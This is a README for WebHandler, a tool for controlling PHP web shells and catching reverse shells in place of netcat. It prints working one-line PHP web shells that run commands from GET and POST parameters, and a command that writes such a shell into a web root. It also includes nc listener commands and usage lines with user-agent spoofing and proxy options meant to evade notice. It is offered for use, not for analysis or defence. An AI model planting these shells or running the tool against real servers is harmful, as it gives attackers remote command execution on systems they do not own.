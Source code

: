 WebHandler
_A hanlder for PHP system functions & alternative 'netcat listener'_
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and  process:
    - PHP _program execution functions_ (e.g. `system`, `passthru`, `exec`, etc)
    - Reserve shell connections (e.g. `nc -lvvp 1234`)

Another feature is to spoof "User-Agent" in the HTTP header. (--random-angent)
It also supports HTTP proxies (proxy http://<ip>:<port>

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

* WebHandler is a replacement for netcat with a reverse connection:
    - `netcat -l -p 1234`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests (e.g. a bind 'web based PHP' connection):
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection (e.g. a reverse 'raw' connection):
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
